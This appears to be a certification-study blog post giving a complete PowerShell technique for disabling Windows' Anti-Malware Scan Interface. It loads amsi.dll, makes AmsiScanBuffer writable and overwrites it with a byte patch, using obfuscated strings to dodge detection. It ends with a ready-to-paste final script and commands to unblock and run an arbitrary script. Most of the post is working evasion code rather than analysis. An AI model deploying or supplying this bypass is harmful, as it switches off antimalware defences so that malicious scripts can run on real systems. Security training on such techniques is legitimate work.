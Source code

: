 ```yaml
---
title: Bypass AMSI Like a King
date: 2024-06-18 05:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
description: Describes how to bypass the Anti-Malware Scan Interface (AMSI) using PowerShell.
---
```


## Summary

This document describes how to bypass the Anti-Malware Scan Interface (AMSI) using PowerShell. It involves loading the `amsi.dll` into memory, finding the memory address of the `AmsiScanBuffer` function, and changing the memory protection to allow writing and executing code. Shellcode is then injected, and a PowerShell script is run. This method is mainly used for cybersecurity research and testing purposes and should be used responsibly.

## 1. Defining a C# Class with PInvoke Methods

```jsx
$Win32 = @"
using System.Runtime.InteropServices;
using System;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
```

In PowerShell, you can't directly call functions from Windows DLLs like `kernel32.dll` or `user32.dll`. These DLLs contain functions written in languages like C or C++. However, you can use a feature called PInvoke (Platform Invocation Services) to call these functions from PowerShell. PInvoke allows managed code (like C#) to call unmanaged functions.

**Explanation:**

- This part of the code defines a C# class `Win32` using a here-string (`@" ... "@`) in PowerShell.
- This class contains three methods: `GetProcAddress`, `LoadLibrary`, and `VirtualProtect`.
- These methods use the `[DllImport]` attribute, which tells the .NET runtime to look for these functions in the specified DLLs (`kernel32.dll` in this case).
- `GetProcAddress` retrieves the address of an exported function from a DLL.
- `LoadLibrary` loads a DLL into the process's address space.
- `VirtualProtect` changes the protection on a region of memory.

---

## 2. Loading `amsi.dll`

```jsx
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))

```

The script aims to interact with functions from `amsi.dll`, which is a Windows DLL containing functions related to the Anti-Malware Scan Interface (AMSI). Before you can use functions from a DLL, you need to load the DLL into memory. The `LoadLibrary` function from `kernel32.dll` is used for this purpose.

**Explanation:**

- This part initializes a byte array `$nowhere` representing the ASCII characters of the string "amsi.dll".
- It then calls the `LoadLibrary` method from the `Win32` class to load `amsi.dll` into memory.
- The result, which is a handle to the loaded DLL, is stored in the variable `$LoadLibrary`.

---

## 3. Getting the Address of `AmsiScanBuffer`

```jsx
$somewhere = [Byte[]](0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
```

The script needs to find the memory address of the `AmsiScanBuffer` function inside `amsi.dll`. This is necessary to modify or intercept the behavior of the `AmsiScanBuffer` function later in the script. The `GetProcAddress` function from `kernel32.dll` is used to retrieve the address of a function within a loaded DLL.

**Explanation:**

- This part initializes a byte array `$somewhere` representing the ASCII characters of the string "AmsiScanBuffer".
- It calls the `GetProcAddress` method from the `Win32` class to retrieve the address of the `AmsiScanBuffer` function within `amsi.dll`.
- The resulting memory address is stored in the variable `$notaddress`.

---

## 4. Changing Memory Protection

```
$notp = 0
$replace = 'VirtualProtec'
[Win32]::('{0}{1}' -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
```

**Explanation:**

- This part sets up a variable `$notp` to hold the old protection value.
- It constructs the name of the `VirtualProtect` method dynamically using the variable `$replace`.
- Then, it calls the dynamically constructed method to change the memory protection of the `AmsiScanBuffer` function to allow writing and executing code.

---

## 5. Injecting Shellcode

```
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)
```

---

## 6. Executing Your PowerShell Script

```
Unblock-File -Path .\malas.ps1
. .\malas.ps1
```

**Explanation:**

- This part of the code unblocks the script file `malas.ps1`, if it was blocked for security reasons.
- Then, it executes the `malas.ps1` script by dot-sourcing it (`.` operator followed by the script name). This runs the script in the current PowerShell session.

---

## 7. Final Code

```jsx
$c = 't'
$Win32 = @"
using System.Runtime.InteropServices;
using System;
public class Win32 {[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtec$c(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))
$somewhere = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
$notp = 0
$replace = 'VirtualProtec'
[Win32]::('{0}{1}' -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)
```

## 8. Run you powershell script

```jsx
Run your powershell here
Unblock-File -Path .\malas.ps1
. .\malas.ps1
```